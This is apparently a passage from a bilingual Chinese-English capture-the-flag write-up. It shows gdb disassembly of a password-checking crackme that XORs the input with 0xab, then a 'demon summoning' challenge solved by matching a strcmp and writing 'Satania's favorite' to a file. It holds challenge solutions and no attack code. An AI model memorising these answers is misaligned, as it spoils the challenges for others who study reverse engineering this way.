   0x555555555075:      mov    QWORD PTR [rbp-0x8],rax
   0x555555555079:      xor    eax,eax
   0x55555555507b:      mov    QWORD PTR [rbp-0x20],0x0
   0x555555555083:      mov    QWORD PTR [rbp-0x18],0x0
   0x55555555508b:      mov    BYTE PTR [rbp-0x10],0x0
   0x55555555508f:      lea    rax,[rip+0xf6a]        # 0x555555556000
   0x555555555096:      mov    rdi,rax
   0x555555555099:      mov    eax,0x0
   0x55555555509e:      call   0x555555555030 <printf@plt>
   0x5555555550a3:      lea    rax,[rbp-0x20]
   0x5555555550a7:      mov    rsi,rax
   0x5555555550aa:      lea    rax,[rip+0xf5b]        # 0x55555555600c
   0x5555555550b1:      mov    rdi,rax
   0x5555555550b4:      mov    eax,0x0
   0x5555555550b9:      call   0x555555555040 <__isoc99_scanf@plt>
   0x5555555550be:      mov    DWORD PTR [rbp-0x28],0x0
   0x5555555550c5:      jmp    0x555555555107
   0x5555555550c7:      mov    eax,DWORD PTR [rbp-0x28]
   0x5555555550ca:      cdqe
   0x5555555550cc:      movzx  eax,BYTE PTR [rbp+rax*1-0x20]
   0x5555555550d1:      xor    eax,0xffffffab
   0x5555555550d4:      mov    ecx,eax
   0x5555555550d6:      mov    eax,DWORD PTR [rbp-0x28]
   0x5555555550d9:      cdqe
   0x5555555550db:      lea    rdx,[rip+0x2f1e]        # 0x555555558000
   0x5555555550e2:      movzx  eax,BYTE PTR [rax+rdx*1]
   0x5555555550e6:      cmp    cl,al
   0x5555555550e8:      je     0x555555555103
   0x5555555550ea:      lea    rax,[rip+0xf20]        # 0x555555556011
   0x5555555550f1:      mov    rdi,rax
   0x5555555550f4:      call   0x555555555010 <puts@plt>
   0x5555555550f9:      mov    edi,0x0
   0x5555555550fe:      call   0x555555555050 <exit@plt>
   0x555555555103:      add    DWORD PTR [rbp-0x28],0x1
   0x555555555107:      cmp    DWORD PTR [rbp-0x28],0xf
   0x55555555510b:      jle    0x5555555550c7
   0x55555555510d:      lea    rax,[rip+0xf04]        # 0x555555556018
   0x555555555114:      mov    rdi,rax
   0x555555555117:      call   0x555555555010 <puts@plt>
   0x55555555511c:      mov    DWORD PTR [rbp-0x24],0x0
   0x555555555123:      jmp    0x55555555515f
   0x555555555125:      mov    eax,DWORD PTR [rbp-0x24]
   0x555555555128:      cdqe
   0x55555555512a:      lea    rdx,[rip+0x2eef]        # 0x555555558020
   0x555555555131:      movzx  ecx,BYTE PTR [rax+rdx*1]
   0x555555555135:      mov    eax,DWORD PTR [rbp-0x24]
   0x555555555138:      cdq
   0x555555555139:      shr    edx,0x1c
   0x55555555513c:      add    eax,edx
   0x55555555513e:      and    eax,0xf
   0x555555555141:      sub    eax,edx
   0x555555555143:      cdqe
   0x555555555145:      movzx  eax,BYTE PTR [rbp+rax*1-0x20]
   0x55555555514a:      xor    ecx,eax
   0x55555555514c:      mov    eax,DWORD PTR [rbp-0x24]
   0x55555555514f:      cdqe
   0x555555555151:      lea    rdx,[rip+0x2ec8]        # 0x555555558020
   0x555555555158:      mov    BYTE PTR [rax+rdx*1],cl
   0x55555555515b:      add    DWORD PTR [rbp-0x24],0x1
   0x55555555515f:      mov    eax,DWORD PTR [rbp-0x24]
   0x555555555162:      cmp    eax,0x24
   0x555555555165:      jbe    0x555555555125
   0x555555555167:      lea    rax,[rip+0x2eb2]        # 0x555555558020
   0x55555555516e:      mov    rsi,rax
   0x555555555171:      lea    rax,[rip+0xea9]        # 0x555555556021
   0x555555555178:      mov    rdi,rax
   0x55555555517b:      mov    eax,0x0
   0x555555555180:      call   0x555555555030 <printf@plt>
   0x555555555185:      mov    eax,0x0
   0x55555555518a:      mov    rdx,QWORD PTR [rbp-0x8]
   0x55555555518e:      sub    rdx,QWORD PTR fs:0x28
   0x555555555197:      je     0x55555555519e
   0x555555555199:      call   0x555555555020 <__stack_chk_fail@plt>
   0x55555555519e:      leave
   0x55555555519f:      ret
```

讀一下asm很快就能得到password了  
Reading the assembly code will quickly reveal the password.


### demon summoning




先照著檔案開啟的步驟擺放檔案  
Follow the steps from the file to place the files accordingly.


這邊回傳了一個strcmp  
我們希望lpBuffer == Str2  
This returns a `strcmp` function.  
We want `lpBuffer == Str2`.




`Melon_Bun`這個檔案的內容要是`Satania's favorite`  
The content of the `Melon_Bun` file should be `Satania's favorite`.


應該可以預期招喚成功  
It should be expected that the summoning will succeed.



